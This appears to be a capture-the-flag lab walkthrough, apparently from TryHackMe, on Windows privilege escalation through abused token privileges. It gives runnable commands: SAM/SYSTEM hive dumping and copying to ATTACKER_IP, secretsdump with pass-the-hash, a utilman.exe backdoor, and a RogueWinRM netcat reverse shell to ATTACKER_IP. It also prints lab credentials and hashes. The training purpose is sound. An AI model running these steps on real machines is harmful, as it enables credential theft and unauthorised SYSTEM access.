

Windows Privileges
View all the privileges using whoami /priv
You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.
Here are the most commonly abused privileges:
• SeImpersonatePrivilege
• SeAssignPrimaryPrivilege
• SeTcbPrivilege
• SeBackupPrivilege
• SeRestorePrivilege
• SeCreateTokenPrivilege
• SeLoadDriverPrivilege
• SeTakeOwnershipPrivilege
• SeDebugPrivilege
To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?
Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS
Infos utiles:
https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens
https://www.exploit-db.com/papers/42556
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Each user has a set of assigned privileges that can be checked with the following command:
whoami /privA complete list of available privileges on Windows systems is available here. From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the Priv2Admin Github project.While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.
SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
Log in to the target machine via RDP using the following credentials:
User:
THMBackup Password:
CopyMaster555This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:

Once on the command prompt, we can check our privileges with the following command:
Command Prompt
C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== ========
SeBackupPrivilege Back up files and directories Disabled
SeRestorePrivilege Restore files and directories Disabled
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set DisabledTo backup the SAM and SYSTEM hashes, we can use the following commands:
Command Prompt
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's
smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:Kali Linux
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share This will create a share named
public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox: Command Prompt
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
And use impacket to retrieve the users' password hashes:
Kali Linux
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:
Kali Linux
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system SeTakeOwnership
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.
Log in to the target machine via RDP using the following credentials:
User:
THMTakeOwnership Password:
TheWorldIsMine2022To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:
{kind=link}
Once on the command prompt, we can check our privileges with the following command:
Command Prompt
C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ======================================== ========
SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set DisabledWe'll abuse
utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
{kind=link}
Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.
To replace utilman, we will start by taking ownership of it with the following command:
Command Prompt
C:\> takeown /f C:\Windows\System32\Utilman.exe
SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:
Command Prompt
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 filesAfter this, we will replace utilman.exe with a copy of cmd.exe:
Command Prompt
C:\Windows\System32\> copy cmd.exe utilman.exe
1 file(s) copied.To trigger utilman, we will lock our screen from the start button:
{kind=link}
And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:
{kind=link}
SeImpersonate / SeAssignPrimaryToken
These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.
Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.
Let's assume we have an FTP service running with user
ftp. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:{kind=link}
There are several reasons why using ftp's token is not the best idea: - For the files to be served correctly, they would need to be accessible to the
ftp user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user ftp. This adds complexity as we must manually configure specific permissions for each served file/directory. - For the operating system, all files are accessed by user ftp, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. - If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the ftp user has access.If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:
{kind=link}
Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user
ftp in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.
In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.
To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.
We will use RogueWinRM exploit to accomplish both conditions.
Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:
http://MACHINE_IP/We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:
{kind=link}
To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the
C:\tools\ folder.The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.
If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.
Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:
Kali Linux
user@attackerpc$ nc -lvp 4442And then, use our web shell to trigger the RogueWinRM exploit using the following command:
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
Note: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.
The
-p parameter specifies the executable to be run by the exploit, which is nc64.exe in this case. The -a parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be -e cmd.exe ATTACKER_IP 4442.If all was correctly set up, you should expect a shell with SYSTEM privileges:
Kali Linux
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
nt authority\system